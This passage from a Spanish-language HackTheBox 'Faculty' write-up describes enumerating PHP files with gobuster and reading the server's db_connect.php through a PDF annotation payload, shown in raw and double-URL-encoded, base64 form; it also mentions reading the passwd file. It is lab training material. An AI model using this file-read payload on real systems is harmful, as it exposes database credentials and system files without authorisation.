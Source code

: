 Ahora ya sabemos que tenemos el `usuario developer, gbyolo y el usuario root.`

Intenté leer el archivo passwd pero no hubo suerte, asique llegados a este punto se me ocurre intentar leer algún archivo php del servidor web, y si vuelvo para trás puedo ver que teníamos varios archivos que nos reportó el fuzzeo, pero para asegurarme buscaré más archivos con extensión php usando gobuster.

![](/assets/images/HTB/Faculty-HackTheBox/gobuster.webp)

Tenemos un archivo que me llama la atención, que es el archivo `db_connect.php`

Asique voy a intentar leerlo, pero existse un problema, desconozco la ruta de ese archivo en el sistema... Pero recuerdo que al comienzo al intentar probar la inyección sql me apareció un error con la ruta `/var/www/scheduling/admin/admin_class.php` y además acabo de descubri también el archivo admin_class.php.

* Primeramente voy a intentar leer el archivo db_connect.php de igual forma que leí el archivo passwd.

```bash
# Genera un archivo con este contenido.
--------------------------------------
<annotation file="/var/www/schedule/admin/db_connect.php" content="/var/www/schedule/admin/db_connect.php" icon="Graph" title="Attached File: /var/www/schedule/admin/db_connect.php" pos-x="195" />

# Lo urlencodea x2 y lo encodea de nuevo en base64
--------------------------------------------------
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL3Zhci93d3cvc2NoZWR1bGUvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwY29udGVudD0lMjUyMi92YXIvd3d3L3NjaGVkdWxlL2FkbWluL2RiX2Nvbm5lY3QucGhwJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL3Zhci93d3cvc2NoZWR1bGUvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

![](/assets/images/HTB/Faculty-HackTheBox/db.webp)
